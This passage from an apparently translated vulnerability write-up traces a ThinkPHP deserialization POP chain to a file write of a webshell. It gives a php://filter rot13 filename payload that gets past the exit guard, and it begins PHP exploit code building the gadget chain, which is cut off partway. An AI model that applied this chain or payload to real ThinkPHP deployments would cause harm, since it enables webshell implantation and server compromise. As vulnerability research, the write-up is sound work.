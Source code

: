 - Continue to follow up on the `writelin` method and find that the `write` method is called

<img src="https://pic.imgdb.cn/item/611d46d14907e2d39c203ceb.png" alt="">

- Here `$this->handle` is controllable, the global search `write` method is further utilized, follow up `thinkphp/library/think/session/driver/Memcached.php`

<img src="https://pic.imgdb.cn/item/611d47814907e2d39c220574.png" alt="">

- Continue search available `se
t` method, follow up `thinkphp/library/think/cache/driver/File.php`, you can directly execute the `file_put_contents` method to write `shell`, `$filename` is controllable and can be used to bypass death with pseudo-protocol `exit`


<img src="https://pic.imgdb.cn/item/611d47d34907e2d39c22d614.png" alt="">

- The `$data` value is tricky, because the parameters in the last call to the `set` method comes from the previously called `write` method can only be `true`, and here `$expire` can only be numeric values, so the file content cannot be written `shell`

<img src="https://pic.imgdb.cn/item/611d49004907e2d39c25c81b.png" alt="">

<img src="https://pic.imgdb.cn/item/611d49004907e2d39c25c834.png" alt="">

- Continue to execute, follow up on the `setTagItem` method below, and the `set` method will be executed again, and the file content here is `$value` assigned through `$name` (file name), so you can do something on the file name, for example

```php
php://filter/write=string.rot13/resource=./<?cuc cucvasb();?>
```

- Here we refer to the `POP chain structure diagram analyzed by osword master here`

<img src="https://pic.imgdb.cn/item/611d4a3c4907e2d39c28e08c.png" alt="">

# EXP
- Since `windows` has restrictions on file names and writes fail, the vulnerability cannot be reproduced in `windows` environment
```php
<?php
namespace think\process\pipes;
use think\model\Pivot;
class Pipes{

}

class Windows extends Pipes{
    private $files = [];

    function __construct(){
        $this->files = [new Pivot()];
    }
}

namespace think\model;#Relation
use think\db\Query;
abstract class Relation{
    protected $selfRelation;
    protected $query;
    function __construct(){
        $this->selfRelation = false;
        $this->query = new Query();#class Query
    }
```